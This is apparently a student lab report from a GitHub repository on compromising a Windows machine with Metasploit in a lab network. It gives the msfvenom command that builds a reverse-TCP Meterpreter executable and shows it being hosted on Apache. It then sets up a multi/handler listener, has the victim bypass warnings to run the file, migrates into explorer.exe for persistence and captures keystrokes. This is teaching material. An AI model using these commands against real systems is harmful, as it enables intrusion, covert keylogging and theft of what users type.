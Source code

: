 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit
### NAME:N.NAVYA SREE
### REG NO:212223040138

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![Screenshot 2024-10-30 084351](https://github.com/user-attachments/assets/c13ae138-865e-4a0c-aa73-cb16bcab572a)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![Screenshot 2024-10-30 084404](https://github.com/user-attachments/assets/0d4bf214-1c2d-4239-83ca-c7a8ab4aef08)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![Screenshot 2024-10-30 084413](https://github.com/user-attachments/assets/21ab6ec8-d9aa-47b9-a2d2-cdfff4b1c690)



Start apache server
sudo systemctl apache2 start
## OUTPUT:
![Screenshot 2024-10-30 084419](https://github.com/user-attachments/assets/962ebb97-efcd-462e-bfa5-6c2397d28e09)


Check the status of apache2
## OUTPUT:
![Screenshot 2024-10-09 082834](https://github.com/user-attachments/assets/545a3b41-410d-481e-ba6a-0215594f1a8e)

Invoke msfconsole:
## OUTPUT:
![Screenshot 2024-10-30 084437](https://github.com/user-attachments/assets/47538d80-0d1b-41f2-95d8-6407caa05d29)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2024-10-09 082914](https://github.com/user-attachments/assets/4622b76d-8df9-45f6-a299-81e4fa841f89)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![Screenshot 2024-10-09 082927](https://github.com/user-attachments/assets/37229e74-48c4-438f-b719-8eaeb3442bb1)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![Screenshot 2024-10-09 082936](https://github.com/user-attachments/assets/6c2f5125-3af1-4220-9d09-3de65ce1c6f1)

Bypass any warning boxes, double-click the file, and allow it to run.

![Screenshot 2024-10-09 082947](https://github.com/user-attachments/assets/30514d6a-414c-4acc-8545-6bda15593bad)

On kali give the command exploit

![Screenshot 2024-10-09 082956](https://github.com/user-attachments/assets/ad2511f0-706e-42c8-bc08-8527e5b31cd5)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![Screenshot 2024-10-09 083005](https://github.com/user-attachments/assets/4e3006f1-0245-4480-9130-fa6ff1f5176c)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![Screenshot 2024-10-09 083017](https://github.com/user-attachments/assets/15693580-f55a-4729-89ea-b4a8245ad8fd)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2024-10-09 083042](https://github.com/user-attachments/assets/d3955e35-d9f8-4319-8e23-910884f3bf40)

![Screenshot 2024-10-09 083053](https://github.com/user-attachments/assets/a091a620-6605-4976-b330-edd98659798f)


keyscan_dump	Shows the keystrokes captured so far

![Screenshot 2024-10-09 083101](https://github.com/user-attachments/assets/e8496e1e-b936-41a6-b8d5-fcd5e86e8dd6)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
